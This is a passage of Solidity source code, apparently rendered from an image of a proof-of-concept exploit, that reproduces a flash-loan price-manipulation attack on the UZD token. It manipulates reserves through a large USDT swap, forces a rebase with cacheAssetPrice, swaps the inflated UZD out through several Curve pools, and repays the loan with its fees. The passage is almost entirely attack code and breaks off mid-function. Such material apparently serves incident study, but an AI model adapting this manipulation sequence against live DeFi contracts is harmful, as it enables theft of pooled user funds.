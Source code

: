 ``` c
        uint256 value = swapToken1Totoken2(USDT, WETH, 7_000_000 * 1e6); // swap USDT to WETH by sushi router

        UZD.cacheAssetPrice(); // rebase UZD balance

        emit log_named_decimal_uint(
            "After donation and reserve manipulation, UZD balance", UZD.balanceOf(address(this)), WETH.decimals()
        );

        swapToken1Totoken2(SDT, WETH, SDT.balanceOf(address(this))); // swap SDT to WETH
        swapToken1Totoken2(WETH, USDT, value); // swap WETH to USDT

        UZD_crvFRAX_POOL.exchange(0, 1, UZD.balanceOf(address(this)) * 84 / 100, 0, address(this)); // swap UZD to crvFRAX

        crvUSD_UZD_POOL.exchange(0, 1, UZD.balanceOf(address(this)), 0, address(this)); // swap UZD to crvUSD

        FRAX_USDC_POOL.remove_liquidity(crvFRAX.balanceOf(address(this)), [uint256(0), uint256(0)]); // burn crvFRAX

        FRAX_USDC_POOL.exchange(0, 1, FRAX.balanceOf(address(this)), 0); // swap FRAX to USDC

        crvUSD_USDC_POOL.exchange(1, 0, crvUSD.balanceOf(address(this)), 0, address(this)); // swap crvUSD to USDC

        Curve3POOL.exchange(1, 2, 25_920 * 1e6, 0); // swap USDC to USDT

        uint256 swapAmount = USDC.balanceOf(address(this)) - amounts[0];
        USDC_WETH_Pair.swap(address(this), true, int256(swapAmount), 920_316_691_481_336_325_637_286_800_581_326, ""); // swap USDC to WETH

        IERC20(tokens[0]).transfer(msg.sender, amounts[0] + feeAmounts[0]);
        IERC20(tokens[1]).transfer(msg.sender, amounts[1] + feeAmounts[1]);
    }

    function apporveAll() internal {
        USDC.approve(address(FRAX_USDC_POOL), type(uint256).max);
        crvFRAX.approve(address(UZD_crvFRAX_POOL), type(uint256).max);
        UZD.approve(address(UZD_crvFRAX_POOL), type(uint256).max);
        USDC.approve(address(crvUSD_USDC_POOL), type(uint256).max);
        crvUSD.approve(address(crvUSD_USDC_POOL), type(uint256).max);
        crvUSD.approve(address(crvUSD_UZD_POOL), type(uint256).max);
        UZD.approve(address(crvUSD_UZD_POOL), type(uint256).max);
        WETH.approve(address(ETH_SDT_POOL), type(uint256).max);
        USDC.approve(address(Curve3POOL), type(uint256).max);
        USDC.approve(address(USDC_WETH_Pair), type(uint256).max);
        WETH.approve(address(sushiRouter), type(uint256).max);
        SDT.approve(address(sushiRouter), type(uint256).max);
        TransferHelper.safeApprove(address(USDT), address(sushiRouter), type(uint256).max);
        FRAX.approve(address(FRAX_USDC_POOL), type(uint256).max);
    }

    function swapToken1Totoken2(IERC20 token1, IERC20 token2, uint256 amountIn) internal returns (uint256) {
        address[] memory path = new address[](2);
        path[0] = address(token1);
        path[1] = address(token2);
        uint256[] memory values =
            sushiRouter.swapExactTokensForTokens(amountIn, 0, path, address(this), block.timestamp);
        return values[1];
```